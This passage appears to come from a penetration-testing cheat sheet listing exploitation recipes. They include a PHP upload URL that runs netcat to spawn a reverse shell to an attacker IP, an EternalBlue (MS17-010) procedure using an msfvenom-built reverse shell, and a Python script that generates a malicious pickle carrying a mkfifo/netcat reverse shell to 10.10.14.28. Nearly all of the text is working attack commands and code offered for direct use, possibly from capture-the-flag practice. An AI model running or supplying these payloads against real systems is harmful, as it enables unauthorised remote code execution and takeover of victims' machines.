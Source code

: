 ```php
    'data' => $phpCode
];


```

2. Run Below url in browser 
```
http://<ip>/badrobot.php?fupload=nc64.exe&fexec=nc64.exe -e cmd <attacker ip> 8081
```

------------------------------------------------------------------------------------------------------------------------------




# eternal Blue 

1. get the files from 
https://github.com/helviojunior/MS17-010
2. create a shell 

```
 msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o revshell.exe
```
3. Run the script 
```
 python send_and_execute.py <victime ip> revshell.exe
```
------------------------------------------------------------------------------------------------------------------------------

## we know the pickle is vulnerable to RCE we wrote a script to generated pickle string 

```python

import pickle
from base64 import urlsafe_b64encode as b64encode

RUNME = """rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.28 9001 > /tmp/f"""

class badrobot(object):
    def __reduce__(self):
        import os
        return (os.system,(RUNME,))

print b64encode(pickle.dumps(badrobot()))

```

# H2 server exoloit 
